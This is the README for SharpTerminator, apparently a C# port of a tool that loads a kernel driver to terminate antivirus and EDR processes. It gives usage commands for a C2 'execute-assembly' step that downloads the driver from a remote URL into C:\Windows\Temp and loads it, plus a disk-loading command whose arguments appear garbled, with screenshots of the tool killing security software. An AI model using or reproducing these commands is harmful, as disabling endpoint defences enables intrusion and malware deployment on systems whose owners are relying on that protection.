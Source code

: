 # SharpTerminator

C# port of ZeroMemoryEx's Terminator, so all hail goes to him.

# Usage

You can download the driver from a remote URL using SharpTerminator and load it to terminate AV/EDR processes, or you can directly load it to the disk to perform the same operation.

When using Remote URL, the driver is downloaded to "C:\Windows\Temp" and then loaded from there.

In fact, there is no difference between them; if you don't want to use the upload function in your C2, you can use the other one.

Loading from remote url:
```
execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"
```
Loading from disk:
```
SharpTerminator.exe --disk SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"
```


### Download driver from remote url and terminate AV/EDR:
![image](https://github.com/mertdas/SharpTerminator/assets/48562581/8eb24a46-8c00-4cd3-8a73-42409b234114)

### Load driver from disk and terminate AV/EDR:

![image](https://github.com/mertdas/SharpTerminator/assets/48562581/232b67b0-f5c6-44cc-936d-d6acdb617a74)

# Credit
ZeroMemoryEx https://github.com/ZeroMemoryEx/Terminator<br>
Spyboy :)

